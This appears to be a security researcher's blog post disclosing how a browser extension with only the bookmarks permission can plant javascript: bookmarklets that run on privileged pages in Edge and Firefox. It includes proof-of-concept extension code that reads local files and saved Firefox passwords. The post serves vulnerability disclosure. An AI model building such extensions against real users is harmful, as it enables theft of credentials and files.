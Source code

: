 # That evil bookmark in your browser 

Sometime back, I decided to look at bookmarks API available for browser extensions. This API sounds interesting to me because it allows you to play with user bookmarks using browser extensions.

If you want to know how extensions and permissions work please consider reading the first part of my previous blogpost https://payatu.com/blog/Nikhil-Mittal/microsoft-edge-extensions-host-permission-bypass-cve-2019-0678

to work with `bookmark API` a browser extension needs `bookmark` permission written in the manifest file

Let's create a manifest file that has only `bookmark` permission which means the extension will only be able to create, delete and update bookmark nothing else like executing javascript codes.

> manifest.json
```
{
  "name": "Evil Edge Extension",
  "author": "@C0d3G33k",
  "description": "This Extension achive evil things!",
  "version": "1.0",
  "icons": {
    "25": "images/color-changer25.png",
    "48": "images/color-changer48.png"
  },
  "permissions": [
    "bookmarks"
  ],
  "browser_action": {
    "default_icon": {
      "20": "images/color-changer20.png",
      "40": "images/color-changer40.png"
    },
    "default_title": "Evil Extension",
    "default_popup": "popup.html"
  },
  "content_scripts": [{
    "matches": [
        "<all_urls>"
    ],
    "js": ["js/content.js"],
    "run_at": "document_end"
}],
  "background": {
    "scripts": ["/js/background.js"],
    "persistent": true
  }
}
```
Further let's create a default popup file as defined in manigest file

> popup.html

```
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" type="text/css" href="css/styles.css" />
  </head>
  <body>
    
    <p>Evil Extension</p>
    <input id="b1" type="button" value="Open" />
    <input id="b2" type="button" value="Execute" />
    <script src="js/popup.js"></script>
  </body>
</html>
```

Let's again define JS file and create a simple bookmark in the browser

```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');


open.onclick = function() {
  browser.tabs.update    ({
      url: "https://www.google.com/"
  });
};

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Google!",
      url: "https://www.google.com"
  });

};

```

![1.gif](1.gif)

Now the interesting thing here is most of the browsers are allowed to create `bookmarklets` using browser extensions

A `bookmarklet` is a bookmark stored in a web browser that contains JavaScript commands, the main purpose of `bookmarklets` is always to add extra features to the browser

for example a simple alert to get the first URL' from current page
```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Display first link!",
      url: "javascript:alert(document.getElementsByTagName('a')[0].href);"
  });

};
```
![2.gif](2.gif)

Browser vendors are sweet enough to provide so many features, but what could go wrong with this implementation? 

Do you remember of privileged pages in browsers which contain so many sensitive pieces of information and settings? which should be protected from javascript code execution

As I mentioned in my previous post if you try directly load `about:flags` in edge and try to execute bookmarklets it would not work.

![3.gif](3.gif)

But we have other ways to load `about:flags` using `res://` URI's like `res://edgehtml.dll/flags.htm`. So let's modify our code and try again

```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');

// to load about:flags

open.onclick = function() {
  browser.tabs.update    ({
      url: "res://edgehtml.dll/flags.htm"
  });
};

// to create bookmark

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:alert(window.location.href);"
  });

};

```
![4.gif](4.gif)

well, that works fine for us! and it creates another elevation of privilege vulnerability in the edge. and hence we can change settings in `about:flags` like 

### Enabling/Disabling Adobe flash player
```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');

// to load about:flags

open.onclick = function() {
  browser.tabs.update    ({
      url: "res://edgehtml.dll/flags.htm"
  });
};

// to toggle adobe flash player flag

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:document.getElementById('BchostLocalhostLoopback').click();"
  });

};

```
![5.gif](5.gif)

### Stealing any local files on the system

Since edge does not enforce SOP for file URI's so if have opened any local files, then the evil bookmark can steal any files from the system.
```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!!!!",
      url: "javascript:let xhr = new XMLHttpRequest();xhr.open('GET','file:///C:/Users/reach/Desktop/test.txt');xhr.send();setTimeout('alert(xhr.response)',3000)"
  });
 
};
```

Next, let's check other browsers as well
In firefox, we are allowed to execute bookmarklets in reference to the following pages 
```
about:certificate
about:compat
about:library
about:logins
about:home
about:privatebrowsing
about:protections
about:studies
about:welcome
```

### Stealing user credentials in firefox 

In firefox `about:logins` contain all the saved passwords, since we can execute javascript code reference to it, we can easily still all the saved logins, Let's modify the code and check

```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:alert(document.all[30]._passwordInput.value)"
  });

};
```

![6.gif](6.gif)

### Changing other extensions settings

In firefox we can even change settings related to other installed extensions, Can you imagine the situation when one extension in the browser can disable features of another one. 

![7.gif](7.gif)

As per my test cases, chrome is safe against this vulnerability since it does not allows any bookmarklets on privileged pages. 

### Root Cause

-----

Bookmarks are also gettings synced to other connected devices which belongs to the same account, which is again another possible source of the attack. 
